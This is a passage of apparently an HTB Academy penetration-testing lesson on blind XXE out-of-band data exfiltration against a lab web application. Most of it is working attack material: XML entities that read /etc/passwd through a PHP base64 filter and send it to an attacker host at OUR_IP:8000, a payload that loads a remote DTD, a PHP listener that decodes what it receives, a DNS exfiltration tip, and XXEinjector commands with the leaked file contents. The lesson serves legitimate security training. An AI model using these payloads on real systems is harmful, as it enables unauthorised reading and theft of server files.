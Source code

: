 # Blind Data Exfiltration

In the previous section, we saw an example of a blind XXE vulnerability, where we did not receive any output containing any of our XML input entities. As the web server was displaying PHP runtime errors, we could use this flaw to read the content of files from the displayed errors. In this section, we will see how we can get the content of files in a completely blind situation, where we neither get the output of any of the XML entities nor do we get any PHP errors displayed.

***

## Out-of-band Data Exfiltration

If we try to repeat any of the methods with the exercise we find at `/blind`, we will quickly notice that none of them seem to work, as we have no way to have anything printed on the web application response. For such cases, we can utilize a method known as `Out-of-band (OOB) Data Exfiltration`, which is often used in similar blind cases with many web attacks, like blind SQL injections, blind command injections, blind XSS, and of course, blind XXE. Both the [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss) and the [Whitebox Pentesting 101: Command Injections](https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection) modules discussed similar attacks, and here we will utilize a similar attack, with slight modifications to fit our XXE vulnerability.

In our previous attacks, we utilized an `out-of-band` attack since we hosted the DTD file in our machine and made the web application connect to us (hence out-of-band). So, our attack this time will be pretty similar, with one significant difference. Instead of having the web application output our `file` entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading.

To do so, we can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the `file` parameter value as part of the URL being requested over HTTP, as follows:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

If, for example, the file we want to read had the content of `XXE_SAMPLE_DATA`, then the `file` parameter would hold its base64 encoded data (`WFhFX1NBTVBMRV9EQVRB`). When the XML tries to reference the external `oob` parameter from our machine, it will request `http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB`. Finally, we can decode the `WFhFX1NBTVBMRV9EQVRB` string to get the content of the file. We can even write a simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal:

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

So, we will first write the above PHP code to `index.php`, and then start a PHP server on port `8000`, as follows:

```shell-session
$ vi index.php # here we write the above PHP code
$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

Now, to initiate our attack, we can use a similar payload to the one we used in the error-based attack, and simply add `<root>&content;</root>`, which is needed to reference our entity and have it send the request to our machine with the file content:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

Then, we can send our request to the web application:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Finally, we can go back to our terminal, and we will see that we did indeed get the request and its decoded content:

```shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

{% hint style="info" %}
**Tip:** In addition to storing our base64 encoded data as a parameter to our URL, we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.
{% endhint %}

***

## Automated OOB Exfiltration

Although in some instances we may have to use the manual method we learned above, in many other cases, we can automate the process of blind XXE data exfiltration with tools. One such tool is [XXEinjector](https://github.com/enjoiz/XXEinjector). This tool supports most of the tricks we learned in this module, including basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

To use this tool for automated OOB exfiltration, we can first clone the tool to our machine, as follows:

```shell-session
$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

Once we have the tool, we can copy the HTTP request from Burp and write it to a file for the tool to use. We should not include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Now, we can run the tool with the `--host`/`--httpport` flags being our IP and port, the `--file` flag being the file we wrote above, and the `--path` flag being the file we want to read. We will also select the `--oob=http` and `--phpfilter` flags to repeat the OOB attack we did above, as follows:

```shell-session
$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

We see that the tool did not directly print the data. This is because we are base64 encoding the data, so it does not get printed. In any case, all exfiltrated files get stored in the `Logs` folder under the tool, and we can find our file there:

```shell-session
$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```

Try to use the tool to repeat other XXE methods we learned.
